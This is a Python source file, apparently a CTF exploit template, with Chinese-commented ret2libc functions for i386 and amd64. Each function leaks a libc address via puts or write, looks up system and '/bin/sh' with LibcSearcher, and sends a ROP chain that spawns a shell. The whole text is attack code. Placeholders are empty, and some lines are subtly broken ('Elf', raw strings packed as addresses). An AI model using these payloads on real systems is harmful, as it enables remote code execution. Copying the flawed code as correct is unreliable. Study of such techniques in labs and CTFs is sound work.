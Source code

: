 ```python
def ret2libc_i386_mannul():
    '''
    ret2libc，X86架构下，手动写rop链
    一般是结合LibcSearcher进行泄露system地址
    如果需要一些其他的操作，可以找一些pop指令用于清理栈
    
    '''
    elf = Elf('')
    io = process('')
    payload = b'xxx' # 前面的偏移
    payload += b'puts_plt' # 用于泄露地址的函数
    payload += elf.sym['main'] # 返回main函数
    payload += elf.got['puts'] # 要泄露的函数的got地址，这里泄露puts函数的地址
    io.send(payload)
    leak_addr = io.recv(4) # 获取到puts的地址
    # 接下来利用libcsearcher库来泄露函数地址
    libc = LibcSearcher('puts', leak_addr)
    libc_base_addr = leak_addr - libc.dump('puts')
    system_addr = libc_base_addr + libc.dump('system')
    str_bin_sh = libc_base_addr + libc.dump('str_bin_sh')
    
    # 第二次填充payload，执行system /bin/sh
    payload = b'xxx'
    payload += p32(system_addr)
    payload += b'aaaa'
    payload += p32(str_bin_sh)
    io.send(payload)
    


def ret2libc_amd64_mannual():
    '''
    ret2libc X64架构下 手动写payload
    '''
    elf = Elf('')
    io = process('')
    pop_rdi_ret_addr = 0x0 # 以下三个都是gadget，可以利用ROPgadget工具寻找
    pop_rsi_ret_addr = 0x0
    pop_rdx_ret_addr = 0x0
    payload = b'xxx' # 前面的偏移，直到函数返回地址
    payload += p64(pop_rdi_ret_addr) + p64(1) # write函数的第一个参数
    payload += p64(pop_rsi_ret_addr) + p64(elf.got['read']) # 第二个参数
    payload += p64(pop_rdx_ret_addr) + p64(0x20) # 第三个参数
    payload += p64(elf.plt['write']) # write函数的地址
    io.send(payload) 
    leak_addr = io.recv(6) #泄露出来的地址
    # 利用libc来计算
    libc = LibcSearcher('read', leak_addr)
    libc_base_addr = leak_addr - libc.dump('read')
    system_addr = libc_base_addr + libc.dump('system')
    str_bin_sh = libc_base_addr + libc.dump('str_bin_sh')
    
    payload = b'xxx'
    payload += p64(pop_rdi_ret_addr) + p64(str_bin_sh)
    payload += p64(system_addr)
    io.send(payload)
    
def ret2libc_pwntools():
    '''
    ret2libc。
    利用pwntools的工具来写payload，主要利用ROP类
    记得设置一下context, 改下架构即可
    '''
```